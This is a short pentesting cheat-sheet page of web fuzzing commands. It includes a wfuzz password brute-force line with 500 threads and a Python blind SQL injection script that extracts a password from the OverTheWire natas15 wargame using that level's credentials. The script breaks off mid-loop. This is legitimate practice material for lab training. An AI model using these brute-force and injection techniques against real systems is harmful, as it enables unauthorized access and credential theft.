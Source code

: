 ## API Fuzzer

[https://github.com/Fuzzapi/API-fuzzer](https://github.com/Fuzzapi/API-fuzzer)

## wfuzz

```bash
wfuzz -c -L -t 400 --hc=404 -w dic.txt -w extensions.txt http://$IP/FUZZ.FUZ2Z
# -w $DICT --> dictionary with typical system files (/etc/passwd and so on)
# -H $AUTH
# --hw --> hide some responses that are useless or not found
# -L --> follow redirection, show the final status code and the response length
# FUZ2Z is for the second dict (extensions.txt)
# If there are more dicts, use FUZ3Z and so on
# -H "User agent: Google Chrome" (also for Authorization if authenticated)(por ejemplo, también con Authorization si estamos
#autenticados)

# BRUTE FORCE PASSWORD KNOWING USERNAME
wfuzz -c -t 500 --hc=404 -w $WORDLIST -d 'username=single&password=FUZZ' $URL
# -c coloured format
# -t 500 to use 500 threads and make it faster
# --hc hide status code to not show that one
# -d the data (request with a FUZZ parameter to guess) 
```

## gobuster

```
gobuster ... -x txt,pdf,config
```

## Extract password with binary search

{% code overflow="wrap" fullWidth="true" %}
```python
#!/usr/bin/python3

import requests, sys   # make HTTP requests and use sys to print 
from string import digits, ascii_lowercase, ascii_uppercase # to create the charset later

url = "http://natas15.natas.labs.overthewire.org/"

charset = ascii_lowercase + ascii_uppercase + digits

sqli = 'natas16" AND password LIKE BINARY "'

# Authentication for the website
s = requests.Session() 
s.auth = ('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

password = ""

while len(password) < 32: # just suppose the password has max 32 characters
        for char in charset: # loop all the characters

                r = s.post(url, data={'username': sqli + password + char + "%"}) # parameter inspecting Network is user and we build AND password LIKE BYNARY "a%" to check if the pass starts with a and so on

                if "This user exists" in r.text: # if we find this text in the response
                        sys.stdout.write(char)   # show in terminal the current char
                        sys.stdout.flush()       # clean the screen
```